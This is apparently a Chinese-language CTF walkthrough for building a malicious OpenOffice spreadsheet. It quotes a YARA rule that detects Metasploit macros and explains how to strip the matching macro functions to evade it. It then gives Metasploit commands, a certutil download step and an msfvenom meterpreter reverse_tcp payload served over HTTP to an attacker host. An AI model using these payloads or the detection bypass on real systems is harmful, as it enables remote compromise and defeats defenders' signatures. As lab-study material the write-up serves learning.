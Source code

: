 

## ODS

[![](./img/197816/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0147773a62e8b7c975.png)

这篇博文里面提及一篇文章：[https://0xdf.gitlab.io/2019/03/27/analyzing-document-macros-with-yara.html](https://0xdf.gitlab.io/2019/03/27/analyzing-document-macros-with-yara.html) ，里面有生成ods文件的示例，以及提到一个yara过滤规则：

```
rule metasploit
{
        strings:
                        $getos = "select case getGUIType" nocase wide ascii
                        $getext = "select case GetOS" nocase wide ascii
                        $func1 = "Sub OnLoad" nocase wide ascii
                        $func2 = "Sub Exploit" nocase wide ascii
                        $func3 = "Function GetOS() as string" nocase wide ascii
                        $func4 = "Function GetExtName() as string" nocase wide ascii

                condition:
                    (all of ($get*) or 2 of ($func*))
}
```

这个规则的意思是：匹配到全部$get开头的规则 或者 任意两个$func开头的规则，就无法通过。

```
use exploit/multi/misc/openoffice_document_macro
set srvhost 10.10.14.220
set srvport 23333
run
[+] msf.odt stored at /root/.msf4/local/msf.odt
```

按照文章的介绍，可以直接使用metasploit生成一个恶意odt文件，而上面的yara规则明显是针对metasploit的，因此需要修改一下宏脚本进行绕过。

odt文件本质为一个zip压缩包，将生成的msf.odt解压。

修改 `/Basic/Standard/Module1.xml`中的宏脚本，删除多余的`Sub Exploit`，`GetOS()`和`GetExtName()`

同时，由于不清楚有没有其他过滤规则，因此选择了使用certutil来下载shell.exe，尽量不使用`powershell`反弹脚本。

[![](./img/197816/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t018fd59668bb5d48ae.png)

重新打包，重命名为msf.ods

然后用msfvenom生成一个后门程序shell.exe放在本地。

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.220 LPORT=4444 -f exe -i 3 -o shell.exe
```

开启http服务

```
python3 -m http.server 23333
```
